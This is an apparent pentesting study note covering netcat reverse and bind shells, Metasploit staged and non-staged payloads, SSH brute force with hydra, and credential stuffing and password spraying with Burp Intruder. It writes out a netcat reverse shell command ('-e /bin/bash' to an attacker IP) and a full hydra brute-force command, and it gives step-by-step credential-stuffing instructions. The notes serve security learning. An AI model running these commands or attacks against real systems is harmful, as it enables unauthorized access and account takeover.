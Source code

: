 ## Reverse Shell vs Bind shell
### Netcat Reverse Shell
- Most common
	- You use it 95% of the time
- A shell gives you access to a machine
	- Attackbox listens - target connects
- A reverse shell is a shell that allows a victim to connect to you
	- You can have netcat active on the attackbox listening on a port, and the target connects to your IP on the same port via netcat
- Port forward or port trigger is needed to connect the target's public IP to the attackbox's private IP
- Example connection
	- Attacker: `nc -nvlp 4444`
	- Target: `nc 192.168.57.6 4444 -e /bin/bash`
- ![Netcat Reverse Shell](assets/Screenshot%20from%202025-09-03%2013-56-41.png)
### Netcat Bind Shell
- Less common
	- Mostly on external assessments
- Most useful when you need to bypass a firewall or when reverse shell isn't working
- The attackbox connects to the target
	- Attackbox connects - target listens
- We open a port on the target via an exploit, then connect to it via netcat
- No need for port forwarding since we connect the attackbox's public IP to the target's private IP
- ![Netcat Bind Shell](assets/Screenshot%20from%202025-09-03%2013-44-18.png)

## Staged vs Non-Staged Payloads
- A payload is what you run as an exploit
- There are different types of payloads
	- Windows payloads
	- Linux payloads
	- Meterpreter payload
		- An attack payload used in [[Hacking Tools#Metasploit |Metasploit]]
		- There are at least 500 payloads in [[Hacking Tools#Metasploit |Metasploit]] alone
- The main difference between a non-staged and a staged payload's syntax is the forward slash `/`
	- Non-staged
		- `windows/meterpreter_reverse_tcp`
	- Staged
		-  `windows/meterpreter/reverse_tcp`
### Staged payloads
- Sends exploit shell payload in stages
- Can be less stable than non-staged
### Non-Staged payloads
- Sends exploit shell code all at once
- Large in size than staged
- Doesn't always work
- ![Staged vs Non-staged](assets/Screenshot%20from%202025-09-04%2011-40-25.png)

## Brute Force
###  [[Common ports and protocols#2. SSH - Secure Shell|SSH]]

- You can brute force attack it in a few ways
	- Using hydra
		- Syntax: `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.4:22 -t 4 -V`
			- -P is a password list
			- -t is the number of consecutive attempts or threads
			- -V is verbose
	- Using metasploit
		- Search for an auxiliary ssh login scanner
		- Use the found scanner
		- Check and set the options
		- The required options will be very similar to hydra
- You can use weak or default credentials to test password strength
- The assessment includes if the blue team can catch you
# Credential Stuffing and Password Spraying
### Credentials stuffing
- It's the act of injecting breached account credentials in hopes of an account takeover
- These credentials can be acquired from [[Reconnaissance#^ce5358|leaks]]
- Example attack using [[Hacking Tools#Butp suite|burp suite]] [[Hacking Tools#^cbb090|pitchfork]] attack
	- You're logging into a website for which you have leaked credentials
	- You select from intruder's positions tab the email value, and password value
	- You select pitchfork, and provide it via the payloads tab with a list of usernames for param 1 (the email value param) and a list of passwords for param 2 (the password value param)
	- Pitchfork will try each username of password of equal index together to attempt logging in with them
	- As the attack is running it will show you each attempt and its result
	- You can filter by unsuccessful attempts by checking the response of any of the attempts, and if it failed, copy the failure message then go to the options tab and add it in the grep feature
### Password spraying
- Disclaimer: you must always ask about the number of possible attempts before the account is locked
	- Trying this technique blindly with a bunch of employee usernames can cause mass account locking and DoS for the client company
- Example attack using [[Hacking Tools#Butp suite|burp suite]] [[Hacking Tools#^837b27|sniper]] attack
	- The start is the same as the pitchfork attack, but you select only the email value as your param
	- This attack will try every email in the list once with a common password
# Notes
- If a payload fails, try the other type
	- You send a non-staged payload and it fails, try a staged payload
	- Your failed payload was a reverse shell? Try a bind shell